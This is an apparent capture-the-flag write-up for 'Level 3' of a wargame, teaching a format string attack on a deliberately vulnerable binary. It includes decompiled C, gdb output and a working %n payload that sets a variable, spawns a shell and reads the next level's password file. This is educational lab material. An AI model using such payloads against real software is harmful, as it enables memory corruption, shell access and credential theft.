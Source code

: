 # Level 3

Here, we have a program reading on stdin again. But by decompiling the code, whe can see a fgets function reading 512 bytes and storing them in a buffer of 520. So... no overflow possible here.

```c
int m;

void v(void) {
  char buff [520];
  
  fgets(buff, 512, stdin);
  printf(buff);
  if (m == 64) {
    fwrite("Wait what?!\n", 1, 12, stdout);
    system("/bin/sh");
  }
  return;
}
```
**We can already see our goal here, the if statement with "m" and the value 64. If we can make "m" equal to 64, we win.** 

One line is in fact a little bit weird:
```c
printf(buff)
````
No format? Only one argument? Why?

Let's introduce our new exploit the **Format string attack**. This attack use this missuse of printf functions to interact with the memory. More precisely, we can use thoses threes format to play:
 - "%x" Read data from the stack
 - "%s" Read character strings from the memory
 - "%n" Write an integer to locations in the memory

An example:
```c
$ ./level3 <<< %d
512
```
Here, printf return the first value in the memory so it's working!

First, we have to find the emplacement of the printf buffer in the memory.
```sh
$ ./level3 <<< AAAA$(python -c "print('.%x' * 4)")
AAAA.200.b7fd1ac0.b7ff37d0.41414141
```
It's in the fourth position, ze can simplify this command bu using Direct Parameter Access.
```sh


$ ./level3 <<< 'AAAA | %4$x'
AAAA | 41414141
```
Here, we can see our buffer in hexa, meaning we found the emplacement.
Now we can use this information to prepare our injection by shifting to the memory and try to access something.
```sh
$ ./level3 <<< 'AAAA | %4$s'
Segmentation fault (core dumped)
```
In this example, we are printing 0x41414141 who segfault because it does  not exist in the memory. But we can try with something existing like the argument of the system function "/bin/sh" (0x804860d).
```sh
$ ./level3 <<< $(python -c 'print("\x0d\x86\x04\x08" + "%4$s")')
/bin/sh
```
Look it's our memory!! Now, let's try now to modify "m" with this. For this we need the address of "m":
```sh
$ gdb -q ./level3 
Reading symbols from /home/user/level3/level3...(no debugging symbols found)...done.
(gdb) b v
Breakpoint 1 at 0x80484ad
(gdb) r
Starting program: /home/user/level3/level3 

Breakpoint 1, 0x080484ad in v ()
(gdb) dissas
Undefined command: "dissas".  Try "help".
(gdb) disass
Dump of assembler code for function v:
	...
	0x080484c7 <+35>:	call   0x80483a0 <fgets@plt>
	0x080484cc <+40>:	lea    -0x208(%ebp),%eax
	0x080484d2 <+46>:	mov    %eax,(%esp)
	0x080484d5 <+49>:	call   0x8048390 <printf@plt>
	0x080484da <+54>:	mov    0x804988c,%eax
	0x080484df <+59>:	cmp    $0x40,%eax
	0x080484e2 <+62>:	jne    0x8048518 <v+116>
	...   
End of assembler dump.
```
We can see that 64 (0x40) is compared with the address **0x804988c**, it's "m".

To modify the value, we have to use "%n" and we can play with "%x" and the field width to increment the value.

```sh
(gdb) run <<< $(python -c 'print("\x8c\x98\x04\x08" + "%4$n")')
(gdb) x/d 0x804988c
0x804988c <m>:  4
...
(gdb) run <<< $(python -c 'print("\x8c\x98\x04\x08" + "%20x%4$n")')
(gdb) x/d 0x804988c
0x804988c <m>:	24
...
(gdb) run <<< $(python -c 'print("\x8c\x98\x04\x08" + "%60x%4$n")')
(gdb) x/d 0x804988c
0x804988c <m>:	64
(gdb) c
Continuing.
Wait what?!
```
As we saw, "m" is now equal to 64 and we run the shell. So the final command is: 
```sh
$ (python -c 'print("\x8c\x98\x04\x08" + "%60x%4$n")'; cat) | ./level3 
�200b7fd1ac0                                         b7ff37d0
Wait what?!
whoami
level4
cat /home/user/level4/.pass
```

Sources:<br>
[OWASP - Format String Attack](https://owasp.org/www-community/attacks/Format_string_attack) <br>
[Hacking - The Art of exploitation](https://www.amazon.fr/Hacking-Art-Exploitation-Jon-Erickson/dp/1593271441)